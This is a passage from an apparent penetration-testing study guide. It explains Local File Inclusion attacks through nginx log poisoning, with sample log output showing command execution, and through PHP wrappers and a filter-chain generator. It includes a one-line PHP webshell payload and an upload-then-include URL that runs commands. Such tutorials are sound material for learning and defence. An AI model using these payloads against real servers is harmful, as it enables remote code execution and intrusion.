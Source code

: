 The response : 
```HTTP
200 OK 
1.3.3.7 - [28/Feb/2019:13:17:10 +0000] "GET /?p=1 HTTP/2.0" 200 5316 "https://freeoscp.net/?page=../../../../var/log/nginx/access.log" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/987948984.984 Safari/537.36" "2.75"
1.3.3.7 - [28/Feb/2019:13:17:10 +0000] "GET /?p=1 HTTP/2.0" 200 5316 "https://freeoscp.net/?page=../../../../var/log/nginx/access.log" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/987948984.984 Safari/537.36" "2.75"
1.3.3.7 - [28/Feb/2019:13:17:10 +0000] "GET /?p=1 HTTP/2.0" 200 5316 "https://freeoscp.net/?page=../../../../var/log/nginx/access.log" "uid=1000(secure) gid=1000(secure) groups=1000(secure),4(adm),27(sudo)......" "2.75"
```
`uid=1000(secure) gid=1000(secure) groups=1000(secure),4(adm),27(sudo)......`

This isn't tied to only the `access.log`, you could also abuse `error.log`, `ssh logs`, different frameworks like Apache, linux logs like `/proc/self/environ` and so on.
#### PHP wrappers & filter chain (copied from websec answers)

Now, one of the interesting PHP wrappers for us, that would allow us to EXECUTE code, is the
`expect://` wrapper.
- Is not enabled by default and is rare
- syntax is trivial - `expect://ls` executes the `ls` command.

`data://` - <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-data">Exploitation</a><br>
`input://` - <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-input">Exploitation</a><br>

And now for the better part -> Using PHP filter chain.

https://github.com/synacktiv/php_filter_chain_generator
This tool generates us from a php code specified the filter payload. The syntax is simple : 
`$ python3 php_filter_chain_generator.py --chain '<php code here>'`


I ain't no expert of why it works, but will add this later, for now you can read an article about it here : 
https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it

#### File upload + LFI
If we have a vulnerable file upload, we can simply upload a file with a webshell payload and then include it via the LFI exploit.

Let's say we upload a `shell.jpg`, with `<?php system($_GET['cmd']); ?>` contents. The file upload only check the extension and nothing else. Now, loading it standardly will just show the contents of the file, but via the LFI, we could actually get the shell to execute. We could simply request
`https://freeoscp.net?page=/path/to/shell/shell.jpg?cmd=id` and get command execution.

I recommend trying out LFI-labs by paralax : https://github.com/paralax/lfi-labs

## Question 61: Explain how CRLF Injection works and describe possible ways it could be exploited.
